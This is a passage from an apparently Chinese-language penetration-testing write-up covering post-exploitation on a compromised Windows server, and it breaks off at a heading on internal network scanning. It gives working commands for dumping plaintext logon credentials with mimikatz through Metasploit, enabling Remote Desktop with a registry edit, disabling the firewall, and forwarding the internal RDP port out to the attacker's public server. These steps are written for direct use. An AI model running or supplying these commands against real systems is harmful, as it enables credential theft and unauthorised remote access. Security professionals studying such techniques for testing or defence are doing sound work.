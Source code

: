 ![图片](https://shs3.b.qianxin.com/butian_public/f7c0909c93ff274ee34e365f39d72b0ed.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f865707b029e3d78e70dc3ff6462a63df.jpg)

解密不成功的话可以用mimikatz直接抓取明文，metasploit已经内置，可以直接加载

> load mimikatz

然后用kerberos命令抓取  
或者用mimikatz\_command执行mimikatz命令

> mimikatz\_command -f sekurlsa::logonPasswords

![图片](https://shs3.b.qianxin.com/butian_public/f16e2636e328c93bd5b7136ae554185e8.jpg)

连接3389
------

目标3389是没有开启的，不过Win7、Win2003、XP系统可用如下命令开启

- 

```php
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![图片](https://shs3.b.qianxin.com/butian_public/f8425a4f151d776de7d5555ecf43322e7.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f2518b8c7ef83f71c29764cf1aa210410.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f887ca8a6b134f37b9e954e6ba6dfec55.jpg)

关闭防火墙:

> netsh firewall set opmode mode=disable

尝试关闭防火墙后还是连接不成功  
测试发现3389端口仍然为closed

![图片](https://shs3.b.qianxin.com/butian_public/f2c07a5c16e30ac4284ba30104f371171.jpg)

真是被自己蠢到了...  
这台服务器是在内网，要连接自然的先把端口转发到公网上啊  
metasploit端口转发:

> portfwd add -l 3389 -p 3389 -r 192.168.50.2

这句命令是将目标(-r 192.168.50.2)的3389端口(-p 3389)转发到我服务器的3389端口(-l 3389)

![图片](https://shs3.b.qianxin.com/butian_public/fde39e11d5f230fb80f96af6e6490c374.jpg)

然后打开远程桌面连接，ip即为我服务器的公网ip，端口由于也是设置的3389，所以不用改

![图片](https://shs3.b.qianxin.com/butian_public/fd27ab6023858097ddfa45271ac8ee8de.jpg)

内网扫描
----
